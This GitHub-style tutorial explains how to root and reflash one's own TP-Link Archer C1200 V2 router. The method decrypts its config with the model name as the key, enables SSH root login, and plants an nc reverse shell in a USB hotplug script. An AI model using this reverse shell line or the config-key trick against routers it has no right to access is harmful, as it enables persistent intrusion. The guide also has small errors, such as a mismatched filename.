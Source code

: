 # Hack and Flash Archer C1200 V2

## Table of Contents

- [Hack and Flash Archer C1200 V2](#hack-and-flash-archer-c1200-v2)
  - [Table of Contents](#table-of-contents)
  - [Disclaimer](#disclaimer)
  - [Preparation](#preparation)
    - [Build Openssl](#build-openssl)
    - [Router Preparation](#router-preparation)
    - [Modifying *.bin* Config File](#modifying-bin-config-file)
    - [Connecting via ssh](#connecting-via-ssh)
    - [Merge the File System into a File and Retrieve it](#merge-the-file-system-into-a-file-and-retrieve-it)
    - [Unpack File System](#unpack-file-system)
    - [Pack File System](#pack-file-system)
    - [Upload File System to Router](#upload-file-system-to-router)

## Disclaimer

This guide is provided for educational and informational purposes only. The procedures outlined involve modifying router firmware, which may void the warranty and could potentially lead to unintended consequences, such as rendering the device non-functional. The user assumes all risks associated with these actions.

It's crucial to acknowledge that altering device firmware may violate the manufacturer's terms of service and could have legal implications. The information presented here is not endorsed or encouraged by the router manufacturer or any other relevant parties.

Before attempting any modifications, ensure you have a clear understanding of the potential risks involved, and proceed at your own discretion. If you are uncertain or uncomfortable with these procedures, it is recommended to seek professional assistance or consult the manufacturer's official documentation.

The author and contributors of this guide are not responsible for any damage, loss of data, or adverse effects resulting from the implementation of the described procedures. Always exercise caution and adhere to ethical standards when engaging in such activities.

## Preparation

### Build Openssl

```Bash
sudo apt-get install libz-dev zlib1g-dev git build-essential libssl-dev linux-headers-$(uname -r) make ssh scp
wget https://www.openssl.org/source/old/1.1.1/openssl-1.1.1h.tar.gz --no-check-certificate
tar -zxvf  openssl-1.1.1h.tar.gz openssl-1.1.1h/
cd openssl-1.1.1h/
./config zlib
make
sudo make install
```

### Router Preparation

1. Reset the router to default settings (factory reset);
2. Wait for the router to turn on;
3. At the password prompt, enter admin in all fields;
4. Click on the "Advanced" button at the top (why the hell do we need a basic install..?);
5. Go to System tools > `Backup & Restore`;
6. Click on "Backup";

### Modifying *.bin* Config File

1. Go to the folder where you downloaded the file and rename it to `config.bin`.

2. Execute:

    ```Bash
    openssl aes-256-cbc -d -in config.bin -k 'Archer C1200' -md md5 | openssl zlib -d -out config.tar
    ```

    > Yea, AES password from the settings is the router model! S is security!

3. Open the tar archive, we have two files,
we need to change with the name `ori-backup-user-config.bin`.

    Find the tag `<dropbear>` (there are two, one in the other).

    And replace the whole tag, including the inner tag, to make it like this:

    ```XML
    <dropbear>
    <dropbear>
    <RemoteSSH>on</RemoteSSH>
    <RootPasswordAuth>on</RootPasswordAuth>
    <Port>22</Port>
    <SysAccountLogin>off</SysAccountLogin>
    <PasswordAuth>on</PasswordAuth>
    </dropbear>
    </dropbear>
    ```

4. Save the file, put it back in the archive and replace it in its place.

5. Now you need to encrypt the file back.

    Execute:

    ```Bash
    openssl zlib -in config.tar | openssl aes-256-cbc -out config.bin -k 'Archer C1200' -md md5
    ```

6. In router web:
   1. Go to System tools > `Backup & Restore`;
   2. Click on "Browse," upload the changed .bin file;
   3. Click on "Restore".
   4. Wait until the router reboots.

### Connecting via ssh

```Bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 admin@192.168.0.1
```

> Where `192.168.0.1` is router ip, password is `admin`.

You need to edit the file `/etc/hotplug.d/usb/10-usb`.

Add to it after the line `ledcli ${USB}_twinkle`:

```Bash
mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.0.2 12345 > /tmp/f```
```

> Where `192.168.0.2` is you machine ip

Note:

> Nano is not available on the router, use `vi` (to start editing press `i`, to finish press `ESC` then type `:wq`)

Next, plug the flash drive into the router.

Execute it on **your** machine:

```Bash
nc -l -p 12345
```

### Merge the File System into a File and Retrieve it

Execute in **nc** terminal:

```Bash
sh
nvrammanager --read=/tmp/fssystem --partition=file-system
chmod 777 /tmp/fssystem
```

Execute it on **your** machine in another terminal:

```Bash
scp -oKexAlgorithms=+diffie-hellman-group1-sha1 admin@192.168.0.1:/tmp/fssystem fssystem
```

### Unpack File System

Execute it on **your** machine in another terminal:

```Bash
unsquashfs fsystem
```

> Now we can completely modify any router firmware files at our discretion!

### Pack File System

Execute it on **your** machine in another terminal:

```Bash
mksquashfs squashfs-root squash.fs -noappend -all-root -comp xz -xattrs
```

### Upload File System to Router

Execute it on **your** machine in another terminal:

```Bash
scp -oKexAlgorithms=+diffie-hellman-group1-sha1 squash.fs admin@192.168.0.1:/tmp/squash.fs
```

**You can now reboot the router. It will boot with the new firmware.**

> Mischief Managed!

Tags: #linux, #hack, #hardware
